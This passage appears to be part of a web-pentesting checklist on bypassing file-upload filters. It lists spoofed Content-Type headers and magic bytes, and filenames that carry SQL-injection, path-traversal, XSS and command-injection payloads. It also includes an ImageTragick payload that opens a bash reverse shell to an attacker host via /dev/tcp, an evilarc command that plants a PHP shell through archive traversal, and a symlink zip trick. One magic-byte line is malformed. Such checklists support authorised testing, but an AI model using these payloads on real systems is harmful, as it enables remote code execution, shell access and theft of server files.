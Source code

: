         - Mime type, change `Content-Type : application/x-php` or `Content-Type : application/octet-stream` to `Content-Type : image/gif`
            
            ```jsx
            Content-Type : image/gif
            Content-Type : image/png
            Content-Type : image/jpeg
            Content-Type wordlist: [SecLists/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
            Set the Content-Type twice: once for unallowed type and once for allowed.
            ```
            
        - Magic Bytes
            
            ```jsx
            PNG: \x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[
            JPG: \xff\xd8\xff
            GIF: GIF87a OR GIF8;
            ```
            
    - Filename vulnerabilities
        - [ ]  Time-Based SQLi Payloads: e.g. `poc.js'(select*from(select(sleep(20)))a)+'.extension`
        - [ ]  LFI/Path Traversal Payloads: e.g. `image.png../../../../../../../etc/passwd`
        - [ ]  XSS Payloads e.g. `'"><img src=x onerror=alert(document.domain)>.extension`
        - [ ]  File Traversal e.g. `../../../tmp/lol.png`
        - [ ]  Command Injection e.g. `; sleep 10;`
    - Picture Compression
    - Configuration Files
        
        ```jsx
        PHP server, take a look at the .htaccess trick to execute code.
        ASP server, take a look at the web.config trick to execute code.
        uWSGI server, take a look at the uwsgi.ini trick to execute code.
        ```
        
    - CVE - ImageMagick
        
        If the backend is using ImageMagick to resize/convert user images, you can try to exploit well-known vulnerabilities such as ImageTragik.
        
        ```jsx
        push graphic-context
        viewbox 0 0 640 480
        fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
        pop graphic-context
        ```
        
    - ZIP archive
        
        When a ZIP/archive file is automatically decompressed after the upload
        
        ```jsx
        python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15
        
        ln -s ../../../index.php symindex.txt
        zip --symlinks test.zip symindex.txt
        ```
        